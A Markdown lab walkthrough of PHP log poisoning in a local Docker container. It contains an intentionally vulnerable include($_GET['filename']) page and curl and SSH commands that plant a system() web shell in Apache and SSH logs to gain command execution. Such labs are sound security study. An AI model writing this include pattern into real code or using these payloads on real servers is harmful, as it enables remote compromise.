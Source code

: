 # Definition
Something to do!!
## Installing and Preparing lab
I will use a Ubuntu docker machine to practice this vulnerability and forwarding *22* and *80* ports to use HTTP and SSH services.
```shell
docker pull ubuntu:latest
docker run -dit -p 80:80 -p 22:22 --name logPoisoning <image_ID>
```
___
Then, we are going to install *apache vim ssh php* inside docker machine.
```shell
apt update
apt install apache2 vim ssh php
```
___
We are going to start *apache2* and *ssh* services.
```shell
service apache2 start
service ssh start
```
___
We have to remove the default *index.html* and create *index.php*.
*index.php* at **/var/www/html**.
```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```
___
# Attacking
## Understanding
First, we must understand that the route **/var/log/** contains many logs sorted by *service names* and that the *adm* group cans read many log files.
![[Pasted image 20230713200127.png]]
___
In this case, this vulnerability will show us LOGS in the web content, as long as the WWW-DATA user has read permissions in the apache2 LOG directory. Then, the web will can interpret our PHP code.
```shell
chown www-data:www-data -R /var/log/apache2
```
___
Now, you can see apache log content on the website.
Note the **User Agent** header in the log content.
![[Pasted image 20230713201143.png]]
___
Well, you actually can modify the *User Agent* Header content by using *curl*.
```shell
curl -s -X GET "http://localhost/TRASH" -H "User-Agent: LOOK_AT_THIS"
```
![[Pasted image 20230713203012.png]]
___
Then, you could think that you can use the basic ```<?php system($_GET["cmd"]); ?>``` php code to do RCEs. But you should first verify if *system* funcion is enabled by using **phpinfo()** function.
```shell
curl -s -X GET "http://localhost/TRASH" -H "User-Agent: <?php phpinfo(); ?>"
```
![[Pasted image 20230713203554.png]]
___
And now, you can use.
```shell
curl -s -X GET "http://localhost/TRASH" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```
![[Pasted image 20230713204539.png]]
___
## SSH Logs
The same way as *apache* logs, you can do *Log Poisoning* with **ssh** logs saved at **/var/log/btmp**.
First, we must have read permissions to see in the web content. To echieve this we have to keep in mind that *ssh* is very sensitive with permisions, thus we have to add the *www-data* user to the *utmp* group to that he gets **READ** permissions.
```shell
usermod -a -G utmp www-data
```
![[Pasted image 20230713213135.png]]
___
Finally, restart *apache* service to load changes.
```shell
service apache2 restart
```
___
Now, you can generate *ssh* logs with this command.
```shell
ssh 'LOOK_AT_THIS'@172.17.0.2
```
![[Pasted image 20230713213424.png]]
___
 Finally, you can use the basic ```<?php system($_GET["cmd"]); ?>``` php code to do RCEs.
 ```shell
 ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2
```
![[Pasted image 20230713213743.png]]
___